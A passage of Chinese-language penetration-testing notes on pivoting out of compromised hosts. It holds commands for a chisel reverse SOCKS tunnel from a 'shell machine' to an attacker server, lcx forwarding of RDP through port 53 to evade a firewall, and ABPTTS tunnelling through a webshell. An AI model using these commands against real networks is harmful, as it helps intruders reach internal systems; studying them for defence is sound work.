 ./chisel server -p 6666 --reverse <br />shell机执行 chisel client<br />./chisel.exe client 服务器ip:6666 R:socks



<a name="H8YBA"></a>
## lcx
条件:3389防火墙做了限制无法访问，转到53端口。<br />本地端口转发<br />
```
lcx.exe -tran 53 192.168.222.137 3389
```
 
<a name="urPLm"></a>
## nb.exe
端口转发<br />[https://github.com/cw1997/NATBypass](https://github.com/cw1997/NATBypass)

<a name="FCUFF"></a>
## abtpps 不出网
起一种端口转发的作用<br />python [abpttsclient.py](http://abpttsclient.py)‐c webshell/config.txt ‐u “代理网页的URL” ‐f 跳板机IP:跳板机端口/目标机IP:目标机端口 <br /> 
<a name="Z3Cxj"></a>
## 冰蝎子自带隧道

[https://www.cnblogs.com/rebeyond/p/14723316.html](https://www.cnblogs.com/rebeyond/p/14723316.html)


